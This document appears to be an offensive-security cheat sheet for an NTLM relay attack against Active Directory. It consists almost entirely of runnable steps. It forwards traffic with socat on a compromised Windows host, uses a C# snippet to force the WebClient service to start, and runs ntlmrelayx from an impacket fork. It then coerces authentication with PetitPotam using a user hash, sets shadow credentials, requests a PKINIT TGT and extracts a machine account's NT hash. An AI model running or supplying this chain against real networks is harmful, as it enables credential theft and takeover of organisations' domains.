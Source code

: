 ```yaml
---
title: "NTLM Relay Attack"
date: 2024-8-3
tags: ["ntlmreplay", "PetitPotam", "active driectory", "ad", "Windows", "adcs", "webdav", "ntlm", "PKINIT", "tgt"]
---
```


### NTLM Relay Attack

#### 1. Run socat to redirect traffic (In Windows Target)

```console
# Upload socat.zip and unzip
Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('c:\programdata\socat.zip', 'c:\programdata')
```

```console
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:<LOCAL_IP>:80
```

<small>*Ref: [socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)*</small>

#### 2. Enable webdav (In Windows Target)

```console
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
			[FieldOffset(0)]
			internal UInt64 DataPointer;
			[FieldOffset(8)]
			internal uint Size;
			[FieldOffset(12)]
			internal int Reserved;
		}
 
		public static void startService(){
			Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);
 
			long handle = 0;
			uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);
 
			bool success = false;
 
			if (output == 0){
				EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
				unsafe
				{
					uint writeOutput = EventWrite(handle, ref desc, 0, null);
					success = writeOutput == 0;
					EventUnregister(handle);
				}
			}
		}
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventUnregister(long RegHandle);
	}
}
"@

$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()

```

<br>

```console
# Run enable_webdav.ps1
C:\programdata\enable_webdav.ps1
```

#### 3. Start ntlmrelayx listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```console
cd impacket
```

```console
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```console
python3 -m venv test
```

```console
source test/bin/activate
```

```console
pip install .
```

```console
pip3 install impacket pyOpenSSL==24.0.0
```

#### Run ntlmrelayx

```console
proxychains4 examples/ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

#### 4. Run PetitPotam (In Local Linux)

```console
proxychains4 python3 PetitPotam.py -u <USER> -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

<small>*Ref: [PetitPotam](https://github.com/topotam/PetitPotam)*</small>

#### 5. Connect to LDAP shell (In Local Linux)

```console
rlwrap nc 127.0.0.1 11000
```

```console
clear_shadow_creds <SOCAT_HOSTNAME>$
```

```console
# Take Note of pfx path and password
set_shadow_creds <SOCAT_HOSTNAME>$
```

#### 6. Request TGT using pfx file (In Local Linux)

```console
proxychains4 python3 gettgtpkinit.py '<DOMAIN>/<SOCAT_HOSTNAME>$' <SOCAT_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC>
```

<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

#### 7. Get NT Hash (In Local Linux)

```console
proxychains4 python3 getnthash.py '<DOMAIN>/<SOCAT_HOSTNAME>$' -key <AS_REP_ENC_KEY>
```

